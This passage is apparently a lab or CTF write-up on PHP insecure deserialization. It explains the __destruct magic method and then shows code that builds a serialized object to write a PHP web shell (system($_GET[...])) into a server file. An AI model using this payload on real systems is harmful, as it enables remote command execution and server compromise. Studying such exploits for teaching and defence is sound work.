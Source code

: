 ```php
}

public function __destruct() {

file_put_contents(__DIR__ . '/' . $this->form_file,$this->message,FILE_APPEND);
echo 'Your submission has been successfully saved!';

}

}
```

–

**What is \_\_destruct?**

`__destruct` magic method is used to always run or do a task at the end of the execution. Let’s say we want to do something everytime \(maybe update a local log file?\), it’ll do that in the end of the execution.

What is it doing in the above application?

```php
public function __destruct() {

file_put_contents(__DIR__ . '/' . $this->form_file,$this->message,FILE_APPEND);
echo 'Your submission has been successfully saved!';

}
```

* It’s creating a file in our `__DIR__` \(or `pwd`\) in the directory and with the message whatever is specified \(using the two properties being used from the class\)
* It then echo’s a string: ‘Your submission has been successfully saved’

–

Now, we can write our own code matching the above^ but just change the contents and the file name, let’s try it.

Remember, we need to use the same **class name** and **same properties names**!

```php
<?php

class FormSubmit {
	public $form_file 	= 'umar0x01.php';
	public $message 	= '<?php system($_GET[123]); ?>';
}

$newObj 	= new FormSubmit;

echo serialize($newObj);

?>
```

